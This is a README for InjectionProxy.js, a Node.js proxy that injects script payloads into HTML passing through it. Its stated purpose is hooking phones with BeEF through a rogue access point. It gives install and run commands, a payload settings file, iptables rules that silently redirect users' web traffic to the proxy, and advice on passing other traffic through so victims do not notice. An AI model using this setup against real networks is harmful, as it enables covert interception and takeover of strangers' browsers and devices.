 # InjectionProxy.js
A simple node.js proxy capable of injecting code into html transmissions

## Installation
To install the required modules run the following command:

```
npm install colors dateformat iconv mootools 
```

## What it does
__injectionproxy.js__ is a simple multithreaded HTTP proxy. It will automatically decode all server replies with content-type html/text and status code 200. If it finds a configurable patteern it will inject a payload either before or after the pattern. It can handle gzip and inflate/deflate compressed content.

I did this quick hack to demonstrate how easy control over a mobile phone can be gained by injecting the [beef](http://beefproject.com/) hook.js into the html the phone is downloading through a rogue access point running this proxy.


## Configuring the proxy
By default the proxy will look for a file called settings.js. You can have multiple settings files. To run the proxy with a different settings file append the name of it to the commandline:
```
node injectionproxy.js mysettings.js
```

This is a very basic settings example:
```
module.exports = {
    "timeFormat"        : "HH:MM:ss",
    "preventCaching"    : true,
    "injectionLocation"	: "</body>",
    "injectBefore"	    : true,
    "payload"		    : "<script>alert('Hello!');</script>\n",
    "port"		        : 3128,
    "debug"		        : true
}
```
- Timeformat: obviously the format string for the log
- preventCaching: This will strip all caching related headers to avoid the server from sending us a 304 (Content not modified) reply
- injectionLocation: This is the place where the payload will be injected
- injectBefore: If set to true, the payload will be before the injectionLocation pattern. Otherwise it will be after the pattern
- payload: The payload which will be injected
- port: Listener Port of the proxy server
- debug: if true, then every single request will yield additional console log lines for incoming and outgoing traffic

### Setting up an HTTP Proxy with iptables and injectionproxy.js

Assuming you are setting up a router with iptables, eth0 is your uplink device and wlan0 the device users connect to then the following commands will be sufficient to set up a simple proxy:

```
 iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
 iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:3128
```

The first command will enable NAT Masquerading. The second one will insert a rule in a very early chain (PREROUTING) that redirects all traffic to any host on port 80 to the proxy listener. The proxy will then figure out the target host from the HTTP request header and send the reply to the client.

If you want to fly under the radar you may also want to pass thru all other traffic so the user doesn't realize his requests are being filtered:

```
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

Remeber to enable forwarding:
```
echo '1' > /proc/sys/net/ipv4/ip_forward
```

You will very likely have to enable routing to the loopback device in the kernel. To do this issue this command:
 
```
sysctl -w net.ipv4.conf.wlan0.route_localnet=1
```